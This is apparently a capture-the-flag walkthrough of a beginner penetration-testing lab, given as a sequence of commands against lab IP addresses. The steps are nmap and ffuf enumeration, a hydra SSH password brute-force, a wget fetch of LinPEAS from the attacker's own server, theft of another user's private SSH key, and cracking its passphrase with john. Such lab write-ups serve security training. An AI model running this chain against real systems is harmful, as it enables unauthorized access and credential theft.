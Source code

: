 10.10.162.125


###### open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

###### ping

```
$ ping 10.10.159.226
```


###### nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```
![src:index](basicpentesting_1.png)
                                                                                                                                                                                         
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

![src:index](basicpentesting_2.png)

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```
![src:index](basicpentesting_3.png)
![src:index](basicpentesting_4.png)


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```
![src:index](basicpentesting_5.png)
![src:index](basicpentesting_6.png)
###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```
![src:index](basicpentesting_7.png)

###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```
![src:index](basicpentesting_8.png)


###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```
![src:index](basicpentesting_10.png)

###### found possible private SSH keys 
###### /home/kay/ .ssh/id_rsa


###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

###### found pass.bak
![src:index](basicpentesting_12.png)
###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```
![src:index](basicpentesting_13.png)

###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa
![src:index](basicpentesting_11.png)

###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
![src:index](basicpentesting_15.png)
###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```
![src:index](basicpentesting_14.png)

###### chmod 
```
$ chmod 600 kay_id_rsa
```

###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```
![src:index](basicpentesting_16.png)
###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```
![src:index](basicpentesting_17.png)












